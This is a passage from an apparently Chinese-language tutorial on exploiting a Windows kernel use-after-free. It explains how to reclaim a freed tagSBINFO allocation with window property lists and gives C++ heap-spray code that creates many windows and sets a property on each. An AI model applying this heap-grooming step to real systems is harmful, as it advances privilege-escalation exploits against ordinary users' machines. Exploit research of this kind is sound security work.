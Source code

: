 ### <a class="reference-link" name="%E5%88%9D%E5%A7%8B%E5%8C%96%E9%98%B6%E6%AE%B5"></a>初始化阶段

因为我们Poc里面是销毁的tagWND窗口，为了查看uaf之后改变了什么，我们这里初始化很多的tagWND，并且设置tagPROPLIST，64位的 tagSBINFO 大小是 0x28 ，而一个 tagPROPLIST 大小为0x18，当再增加一个 tagPROP 的时候，其大小刚好为 (0x18 + 0x10) == 0x28，也就是说我们刚好可以占用释放的那块 tagSBINFO ，那也就可以监视 UAF 前后内存的变化，下面是窗口堆初始化函数实现

```
BOOL InitWindow(HWND* hwndArray,int count)
`{`
    WNDCLASSEXA wn;

    wn.cbSize = sizeof(WNDCLASSEX);
    wn.style = 0;
    wn.lpfnWndProc = WndProc;
    wn.cbClsExtra = 0;
    wn.cbWndExtra = 0;
    wn.hInstance = GetModuleHandleA(NULL);
    wn.hIcon = LoadIcon(NULL, IDI_APPLICATION);
    wn.hCursor = LoadCursor(NULL, IDC_ARROW);
    wn.hbrBackground = (HBRUSH)(COLOR_WINDOW + 1);
    wn.lpszMenuName = NULL;
    wn.lpszClassName = sz_ClassName;
    wn.hIconSm = LoadIcon(NULL, IDI_APPLICATION);

    if (regflag)
    `{`
        if (!RegisterClassExA(&amp;wn))
        `{`
            cout &lt;&lt; "[*] Failed to register window.nError code is " &lt;&lt; GetLastError() &lt;&lt; endl;
            system("pause");
            return FALSE;
        `}`
        regflag = FALSE;
    `}`

    for (int i = 0; i &lt; count; i++)
    `{`

        hwndArray[i] = CreateWindowExA(
            0,
            sz_ClassName,
            0,
            WS_OVERLAPPEDWINDOW,
            CW_USEDEFAULT,
            CW_USEDEFAULT,
            CW_USEDEFAULT,
            CW_USEDEFAULT,
            (HWND)NULL,
            (HMENU)NULL,
            NULL,
            (PVOID)NULL
        );

        if (hwndArray[i] == NULL)
            return FALSE;

        SetPropA(hwndArray[i], (LPCSTR)(1), (HANDLE)0xAAAABBBBAAAABBBB);
    `}`

    return TRUE;
`}`
```
